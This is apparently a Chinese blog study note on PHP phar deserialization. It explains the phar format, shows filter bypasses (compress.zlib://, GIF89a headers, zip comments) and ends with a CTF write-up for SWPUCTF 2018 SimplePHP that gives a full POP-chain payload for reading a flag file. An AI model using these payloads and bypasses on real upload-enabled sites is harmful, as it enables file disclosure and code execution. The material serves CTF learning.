# 0x01前言

因为做到了GXYCTF一道题的考点是phar反序列化，所以就来专门学习一下关于这个phar反序列化的知识点

# 0x02正题

PHP反序列化常见的是使用`unserilize()`进行反序列化，除此之外还有其它的反序列化方法，不需要用到`unserilize()`。就是用到了本文的主要内容——phar反序列化，用这种方法可以在不使用unserialize()函数的情况下触发PHP反序列化漏洞。**漏洞触发是利用Phar:// 伪协议读取phar文件时，会反序列化meta-data储存的信息。**然后我去翻阅了大量大佬的文章进行学习，最后做成自己的笔记去方便自己以后随时可以看

## 什么是phar?

Phar(PHP归档)是将php文件打包而成的一种压缩文档，类似于Java中的jar包。这个特性使得 PHP也可以像 Java 一样方便地实现应用程序打包和组件化。一个应用程序可以打成一个 Phar 包，直接放到 PHP-FPM 中运行。

 它有一个特性就是phar文件会以序列化的形式储存用户自定义的`meta-data`。以扩展反序列化漏洞的攻击面，配合`phar://`协议使用。

php通过用户定义和内置的“流包装器”实现复杂的文件处理功能。内置包装器可用于文件系统函数，如(fopen(),copy(),file_exists()和filesize()。 phar://就是一种内置的流包装器

### 常见的的流包装器

file:// — 访问本地文件系统，在用文件系统函数时默认就使用该包装器
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流

phar需要的php版本:php>=5.2，在PHP 5.3 或更高版本中默认开启

## phar文件结构

Phar文件主要包含三至四个部分：

1. a stub

stub的基本结构：**`xxx<?php xxx;__HALT_COMPILER();?>`，**前面内容不限，但必须以`__HALT_COMPILER();?>`来结尾，否则phar扩展将无法识别这个文件为phar文件。

2. a manifest describing the contents

Phar文件中被压缩的文件的一些信息，其中Meta-data部分的信息会以序列化的形式储存，这里就是漏洞利用的关键点



3. the file contents

被压缩的文件内容，在没有特殊要求的情况下，这个被压缩的文件内容可以随便写的，因为我们利用这个漏洞主要是为了触发它的反序列化

4. a signature for verifying Phar integrity

签名格式



这里我跟着大佬的wp进行了一次测试

先修改php.ini配置文件中的phar.readonly为Off



然后在web目录下创建一个1.php

```PHP
<?php 
class test{
	public $name='phpinfo();';
}
$phar = new phar('test.phar');//后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();?>");//设置stub
$obj = new test();
$phar->setMetadata($obj);//自定义的meta-data存入manifest
$phar->addFromString("flag.txt","flag");//添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```

在终端运行后,会生成一个text.phar在当前目录下。



将text.phar用windex打开文件



可以明显的看到meta-data是以序列化的形式存储的。有序列化数据必然会有反序列化操作，php一大部分的文件系统函数在通过`phar://`伪协议解析phar文件时，都会将meta-data进行反序列化，测试后受影响的函数如下：



然后我们写漏洞代码触发phar的反序列化

```php
<?php
class test{
    public $name="";
    public function __destruct()
    {
        eval($this->name);
    }
}
$phardemo = file_get_contents('phar://test.phar');
echo $phardemo;
```

然后访问这个漏洞文件，会发现刚刚序列化的对象被反序列化然后执行了




## 漏洞利用条件

1. phar可以上传到服务器端(存在文件上传)
2. 要有可用的魔术方法作为“跳板”。
3. 文件操作函数的参数可控，且`:`、`/`、`phar`等特殊字符没有被过滤

## 绕过方式

1.最简单的就是用其他协议进行绕过了，例如

```html
php://filter/read=convert.base64-encode/resource=phar://phar.phar
```

2.当环境限制了phar不能出现在前面的字符里。可以使用`compress.bzip2://`和`compress.zlib://`等绕过

```
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar:///test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
```

3.GIF格式验证可以通过在文件头部添加GIF89a绕过

```
$phar->setStub("GIF89a<?php __HALT_COMPILER();?>");
```

4.绕过 `__HALT_COMPILER检测`

PHP通过`__HALT_COMPILER`来识别Phar文件，那么安全开发自然而然也会对这个进行检测，所以就需要绕过了

- **将Phar文件的内容写到压缩包注释中，压缩为zip文件**

```php
<?php
$a = serialize($a);
$zip = new ZipArchive();
$res = $zip->open('phar.zip',ZipArchive::CREATE); 
$zip->addFromString('flag.txt', 'flag is here');
$zip->setArchiveComment($a);
$zip->close();    
?>
```

- **将生成的Phar文件进行gzip压缩，压缩命令**

```php
gzip test.phar
```


# 0x03例题

## [SWPUCTF 2018]SimplePHP

打开题目有查看文件和上传文件两个选项



查看源代码



发现有file参数可以查看文件

然后我们可以看到有flag.php，我们用/file.php?file=flag.php查看一下



好吧并没有什么信息，我们看一下其他的文件

index.php

```php
<?php
header("content-type:text/html;charset=utf-8");
include 'base.php';
?>
```

upload_file.php

```php
222.90.67.205
<?php 
include 'function.php'; 
upload_file(); 
?> 
<html> 
<head> 
<meta charest="utf-8"> 
<title>文件上传</title> 
</head> 
<body> 
<div align = "center"> 
        <h1>前端写得很low,请各位师傅见谅!</h1> 
</div> 
<style> 
    p{ margin:0 auto} 
</style> 
<div> 
<form action="upload_file.php" method="post" enctype="multipart/form-data"> 
    <label for="file">文件名:</label> 
    <input type="file" name="file" id="file"><br> 
    <input type="submit" name="submit" value="提交"> 
</div> 

</script> 
</body> 
```

function.php

```php
<?php 
//show_source(__FILE__); 
include "base.php"; 
header("Content-type: text/html;charset=utf-8"); 
error_reporting(0); 
function upload_file_do() { 
    global $_FILES; 
    $filename = md5($_FILES["file"]["name"].$_SERVER["REMOTE_ADDR"]).".jpg"; 
    //mkdir("upload",0777); 
    if(file_exists("upload/" . $filename)) { 
        unlink($filename); 
    } 
    move_uploaded_file($_FILES["file"]["tmp_name"],"upload/" . $filename); 
    echo '<script type="text/javascript">alert("上传成功!");</script>'; 
} 
function upload_file() { 
    global $_FILES; 
    if(upload_file_check()) { 
        upload_file_do(); 
    } 
} 
function upload_file_check() { 
    global $_FILES; 
    $allowed_types = array("gif","jpeg","jpg","png"); 
    $temp = explode(".",$_FILES["file"]["name"]); 
    $extension = end($temp); 
    if(empty($extension)) { 
        //echo "<h4>请选择上传的文件:" . "<h4/>"; 
    } 
    else{ 
        if(in_array($extension,$allowed_types)) { 
            return true; 
        } 
        else { 
            echo '<script type="text/javascript">alert("Invalid file!");</script>'; 
            return false; 
        } 
    } 
} 
?> 
```

base.php

```php
<?php 
    session_start(); 
?> 
<!DOCTYPE html> 
<html> 
<head> 
    <meta charset="utf-8"> 
    <title>web3</title> 
    <link rel="stylesheet" href="https://cdn.staticfile.org/twitter-bootstrap/3.3.7/css/bootstrap.min.css"> 
    <script src="https://cdn.staticfile.org/jquery/2.1.1/jquery.min.js"></script> 
    <script src="https://cdn.staticfile.org/twitter-bootstrap/3.3.7/js/bootstrap.min.js"></script> 
</head> 
<body> 
    <nav class="navbar navbar-default" role="navigation"> 
        <div class="container-fluid"> 
        <div class="navbar-header"> 
            <a class="navbar-brand" href="index.php">首页</a> 
        </div> 
            <ul class="nav navbar-nav navbra-toggle"> 
                <li class="active"><a href="file.php?file=">查看文件</a></li> 
                <li><a href="upload_file.php">上传文件</a></li> 
            </ul> 
            <ul class="nav navbar-nav navbar-right"> 
                <li><a href="index.php"><span class="glyphicon glyphicon-user"></span><?php echo $_SERVER['REMOTE_ADDR'];?></a></li> 
            </ul> 
        </div> 
    </nav> 
</body> 
</html> 
<!--flag is in f1ag.php-->
```

这里可以看到在upload_file.php中包含了function.php，而function.php就是对上传文件的过滤，然后我们对function.php文件分析一下，我直接搬下来了，懒得翻来翻去

```php
<?php 
//show_source(__FILE__); 
include "base.php"; 
header("Content-type: text/html;charset=utf-8"); 
error_reporting(0); 
function upload_file_do() { 
    global $_FILES; 
    $filename = md5($_FILES["file"]["name"].$_SERVER["REMOTE_ADDR"]).".jpg"; 
    //mkdir("upload",0777); 
    if(file_exists("upload/" . $filename)) { 
        unlink($filename); 
    } 
    move_uploaded_file($_FILES["file"]["tmp_name"],"upload/" . $filename); 
    echo '<script type="text/javascript">alert("上传成功!");</script>'; 
} 
function upload_file() { 
    global $_FILES; 
    if(upload_file_check()) { 
        upload_file_do(); 
    } 
} 
function upload_file_check() { 
    global $_FILES; 
    $allowed_types = array("gif","jpeg","jpg","png"); 
    $temp = explode(".",$_FILES["file"]["name"]); 
    $extension = end($temp); 
    if(empty($extension)) { 
        //echo "<h4>请选择上传的文件:" . "<h4/>"; 
    } 
    else{ 
        if(in_array($extension,$allowed_types)) { 
            return true; 
        } 
        else { 
            echo '<script type="text/javascript">alert("Invalid file!");</script>'; 
            return false; 
        } 
    } 
} 
?> 
```

这个的话简单来说就是限制了文件上传的四种文件后缀，其他的就没什么可用的了

可以看到存在一个file.php，我们也查看一下这个文件

file.php

```php
<?php 
header("content-type:text/html;charset=utf-8");  
include 'function.php'; 
include 'class.php'; 
ini_set('open_basedir','/var/www/html/'); 
//通过 open_basedir 限制 PHP 访问的文件目录，允许 PHP 只访问 /var/www/html/ 目录及其子目录。
$file = $_GET["file"] ? $_GET['file'] : ""; 
//从 URL 查询字符串中获取 file 参数。
if(empty($file)) { 
    echo "<h2>There is no file to show!<h2/>"; 
} //检查是否为空
$show = new Show(); 
if(file_exists($file)) { 
    $show->source = $file; 
    $show->_show(); 
} else if (!empty($file)){ 
    die('file doesn\'t exists.'); 
} 
?> 
```

额，然后这里又出现了一个class文件，也得读一下啊

class.php

```php
<?php
class C1e4r
{
    public $test;
    public $str;
    public function __construct($name)
    {
        $this->str = $name;
    }
    public function __destruct()
    {
        $this->test = $this->str;
        echo $this->test;
    }
}

class Show
{
    public $source;
    public $str;
    public function __construct($file)
    {
        $this->source = $file;   //$this->source = phar://phar.jpg
        echo $this->source;
    }
    public function __toString()
    {
        $content = $this->str['str']->source;
        return $content;
    }
    public function __set($key,$value)
    {
        $this->$key = $value;
    }
    public function _show()
    {
        if(preg_match('/http|https|file:|gopher|dict|\.\.|f1ag/i',$this->source)) {
            die('hacker!');
        } else {
            highlight_file($this->source);
        }
        
    }
    public function __wakeup()
    {
        if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
            echo "hacker~";
            $this->source = "index.php";
        }
    }
}
class Test
{
    public $file;
    public $params;
    public function __construct()
    {
        $this->params = array();
    }
    public function __get($key)
    {
        return $this->get($key);
    }
    public function get($key)
    {
        if(isset($this->params[$key])) {
            $value = $this->params[$key];
        } else {
            $value = "index.php";
        }
        return $this->file_get($value);
    }
    public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value));
        return $text;
    }
}
?>
```

从file.php中可以看到是调用了class.php中的show类中的_show方法去检查file参数，我们单独分析一下这个方法

```php
  public function _show()
    {
        if(preg_match('/http|https|file:|gopher|dict|\.\.|f1ag/i',$this->source)) {
            die('hacker!');
        } else {
            highlight_file($this->source);
        }
        
    }
```

在_show()方法中对file参数进行了一定的过滤，其实这道题的非预期解的话是可以通过绕过去读取f1ag.php的，但是我们还是按照phar反序列化去进行解题，那我们就继续分析这个class.php

可以发现在Test类中有file_get方法

```php
    public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value));
        return $text;
    }
```

这个可以作为突破口去利用

解题思路:

首先生成一个phar文件，其中meta值里面是对class.php的序列化值，然后上传，获取文件的路径和文件名。然后，通过file参数访问该文件，file参数会经过`file_exists()`，直接触发phar进行反序列化，触发漏洞。那我们来构造一下pop链

我们已经知道在Test类中的file_get()方法是我们最终需要调用的，所以这个方法可以作为pop链的出口，那我们进行倒推，我们先分析一下Test类

```php
class Test
{
    public $file;
    public $params;
    public function __construct()
    {
        $this->params = array();
    }
    public function __get($key)
    {
        return $this->get($key);
    }
    public function get($key)
    {
        if(isset($this->params[$key])) {
            $value = $this->params[$key];
        } else {
            $value = "index.php";
        }
        return $this->file_get($value);
    }
    public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value));
        return $text;
    }
}
```

- 在file_get()方法中，test为最终返回的内容，而test来源于里面的value参数，value参数来源于get()方法中的key参数，key参数是params数组中的一个键，我们需要触发这个get()方法，就需要触发我们的_get()魔术方法，而这个魔术方法的触发条件是读取不可访问或者是不存在的属性时触发，所以这里的链子是_

Test::__get()->Test::get()->Test::file_get()

为了触发我们的__get()魔术方法，我们可以设置我们的数组的一个键值对为params=array(“source”=>“f1ag.php”)，然后我们传入$key=“source”即可

那继续倒推，我们应该怎么出发到get呢?

我们再来分析一下Show类

```php
class Show
{
    public $source;
    public $str;
    public function __construct($file)
    {
        $this->source = $file;   //$this->source = phar://phar.jpg
        echo $this->source;
    }
    public function __toString()
    {
        $content = $this->str['str']->source;
        return $content;
    }
    public function __set($key,$value)
    {
        $this->$key = $value;
    }
    public function _show()
    {
        if(preg_match('/http|https|file:|gopher|dict|\.\.|f1ag/i',$this->source)) {
            die('hacker!');
        } else {
            highlight_file($this->source);
        }
        
    }
    public function __wakeup()
    {
        if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
            echo "hacker~";
            $this->source = "index.php";
        }
    }
}
```

既然我们需要设置一个键值对，我们可以发现这个类中有一个__toString()方法，在这个方法中

1. $content = $this->str['str']->source;`: 这里假设 `$this->str` 是该对象的一个属性，它是一个数组，包含一个键 `'str'`，该键的值是一个对象，该对象有一个名为 `source` 的属性。方法将这个属性的值赋给 `$content`。

所以这里的我们可以让我们的str键为一个对象，然后通过调用这个对象里的source赋值给content，那我们就令str[‘str’] = new Test()，因为Test中没有souce，所以可以触发__get魔术方法

接着我们要思考怎么触发这个__toString()魔术方法

对于__toString()魔术方法，当我们把对象当作字符串调用的时候会触发

所以我们可以选择Cle4r类的_destruct()方法

```php
class C1e4r
{
    public $test;
    public $str;
    public function __construct($name)
    {
        $this->str = $name;
    }
    public function __destruct()
    {
        $this->test = $this->str;
        echo $this->test; 
    }
}
```

为什么要选择这个方法呢？

因为这里的话test参数是来自于str参数，而str参数是公共属性，可以由construct方法赋值，也可以由我们自己赋值，所以我们让str为Show对象就可以触发__toString()魔术方法了

这样我们的pop链就理清楚了

```
Cle4r::__destruct()->Show::__toString()->Test::__get()->Test::get()->Test::file_get()
```

知道pop链后我们就直接写payload

```php
<?php

class C1e4r
{
    public $test;
    public $str;
    public function __destruct()
    {
        $this->test = $this->str;
        echo $this->test;
    }
}

class Show
{
    public $source;
    public $str;
}
class Test
{
    public $file;
    public $params;
    public function __construct()
    {
        $this->params = array('source'=>'/var/www/html/f1ag.php');
    }

}
$c = new C1e4r();
$s=new Show();
$t =new Test();
$c->str = $s;#触发__toString()方法
$s->str['str'] = $t;#触发__get()方法
$s->source=$s;#绕过wakeup()方法
#Cle4r::__destruct()->Show::__toString()->Test::__get()->Test::get()->Test::file_get()
echo(serialize($c));
$phar = new Phar("exp.phar"); //.phar文件
$phar->startBuffering();
$phar->setStub('<?php __HALT_COMPILER(); ? >'); //固定的
$phar->setMetadata($c); //触发的头是C1e4r类，所以传入C1e4r对象
$phar->addFromString("exp.txt", "test"); //随便写点什么生成个签名
$phar->stopBuffering();
?>
```

写好payload后我们要在本地生成phar文件，这里直接运行一下就有phar文件了



有了之后改成允许上传的文件后缀，这里我改成jpg，上传后显示成功，我们查看一下上传的文件

```
url/upload/
```



这里可以看到我们上传的jpg文件

然后我们用用phar伪协议访问我们的jpg文件



得到的base64编码拿去解码一下



这里可以拿到flag了
